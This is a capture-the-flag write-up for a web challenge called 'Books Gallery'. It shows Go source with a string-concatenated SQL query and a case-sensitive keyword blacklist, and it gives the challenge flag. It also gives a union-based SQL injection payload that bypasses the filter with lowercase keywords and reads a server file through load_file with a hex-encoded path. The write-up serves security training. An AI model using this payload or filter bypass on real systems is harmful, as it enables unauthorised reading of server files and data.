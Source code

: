 ```yaml
---
title: Books Gallery
icon: Globe
---
```


### Challenge Description

Author : anakmamah

Lately, Pak Vincent has enjoyed reading books, but when he tried to search for a specific book, he realized that a feature was missing. He wondered why it had disappeared, especially since he was about to use it to find the book he wanted to read.

### Flag

`HOLOGY7{8uKu_@d41ah_J3nd3la_dUn1A_uW4W}`

***

### Analysis

We are given a full source-code of a website written in Go. Looking at the `docker-compose.yml` file, we can see that the flag is stored on the database container meaning that we could use an SQL injection to solve this challenge. And also, the database for this challenge is using MySQL, so that could be important later on.

```yaml
# snip
  db:
    image: mysql:8.0
    container_name: books-galery-db
    restart: always
    environment:
      - MYSQL_ROOT_PASSWORD=password
      - MYSQL_USER=user
      - MYSQL_PASSWORD=password
      - MYSQL_DATABASE=books_galery
    ports:
      - "3306:3306"
    volumes:
      - ./flag.txt:/var/lib/mysql-files/flag.txt
      - ./database/database.sql:/docker-entrypoint-initdb.d/database.sql
# snip
```

From the `ShowBooks` controller, we can see that the parameters are concatenated to the query meaning that we could inject SQL statements to it. But, there is a `SanitizeData` function that implement some sort of blacklisting.

```go
// snip
func ShowBooks(db *sql.DB) gin.HandlerFunc {
		searchQuery := c.Query("query")
		searchQuery = lib.SanitizeData(searchQuery)
		log.Printf("Search query: %s", searchQuery)
		
		var rows *sql.Rows
		var err error
		if searchQuery != "" {
			query := `
				SELECT b.book_id, b.title, b.author, b.img_path 
				FROM books b 
				JOIN genres g ON b.genre_id = g.genre_id 
				WHERE b.title LIKE '%` + searchQuery + `%' OR b.author LIKE '%` + searchQuery + `%'`
			rows, err = db.Query(query)
		} else {
			query := `SELECT b.book_id, b.title, b.author, b.img_path 
			          FROM books b 
			          JOIN genres g ON b.genre_id = g.genre_id`
			rows, err = db.Query(query)
		}
// snip
```

```go
func SanitizeData(input string) string {
	replacements := []struct {
		old string
		new string
	}{
		{"..", "x"},
		{"--", "x"},
		{"/*", "x"},
		{"HAVING", "x"},
		{"UNION", "x"},
		{"SUBSTRING", "x"},
		{"ASCII", "x"},
		{"SHA1", "x"},
		{"ROW_COUNT", "x"},
		{"SELECT", "x"},
		{"INSERT", "x"},
		{"CASE WHEN", "x"},
		{"INFORMATION_SCHEMA", "x"},
		{"FILE", "x"},
		{"DROP", "x"},
		{"RLIKE", "x"},
		{" IF ", "x"},
		{" OR ", "x"},
		{"CONCAT", "x"},
		{"WHERE", "x"},
		{"UPDATE", "x"},
		{"or 1", "x"},
		{"or 1=1", "x"},
		{"flag", "x"},
		{"txt", "x"},
		{"or true", "x"},
		{"=", ""},
		{"+", "-"},
		{"\\", "x"},
		{"=$", "+$"},
		{"+$", "=$"},
	}

	input = strings.TrimSpace(input)

	for _, r := range replacements {
		input = strings.ReplaceAll(input, r.old, r.new)
	}

	return input
}
```

One problem with the sanitization is that the replacement does not account for capitalization. Since SQL does not check for capitalization, the statement blacklists are useless. But, we still cannot use `flag` or `txt` as our input. Therefore, we can use encoding to bypass this blacklist.

### Solution

The payload is a basic union-based SQL injection but we will open the `flag.txt` file and output it on one of the rows.

```
' union select 1,load_file(unhex('2f7661722f6c69622f6d7973716c2d66696c65732f666c61672e747874')),1,1 from users %23
```

Then we just use that as our `query` and the flag will be printed out!

![Flag is shown after inputting payload](/books_gallery_1.png)
